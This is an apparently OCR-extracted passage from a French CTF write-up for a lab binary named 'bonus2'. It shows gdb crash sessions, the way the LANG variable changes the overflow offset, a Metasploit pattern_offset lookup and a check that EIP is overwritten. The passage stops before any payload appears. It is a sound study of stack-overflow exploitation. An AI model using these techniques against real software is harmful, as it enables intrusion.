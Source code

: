 Program received signal SIGSEGV, Segmentation fault.
0x08004242 in ?? ()
(gdb) info registers
eax            0x4f     79
ecx            0xffffffff       -1
edx            0xb7fd28b8       -1208145736
ebx            0xbffffa50       -1073743280
esp            0xbffffa00       0xbffffa00
ebp            0x42424242       0x42424242
esi            0xbffffa9c       -1073743204
edi            0xbffffa4c       -1073743284
eip            0x8004242        0x8004242
eflags         0x210286 [ PF SF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

Cherchons l'offset: 

Avec aucune variable d'environnement LANG de set
```
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 200') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? ()
```

Avec export LANG="nl"
```
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 200') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? ()
```

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 38614137
[*] Exact match at offset 23
```

Verification
```
(gdb) r $(python -c 'print "A" * 200') $(python -c 'print "B" * 23 + "CCCC"')                                                             
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 200') $(python -c 'print "B" * 23 + "CCCC"')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBCCCC

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
```
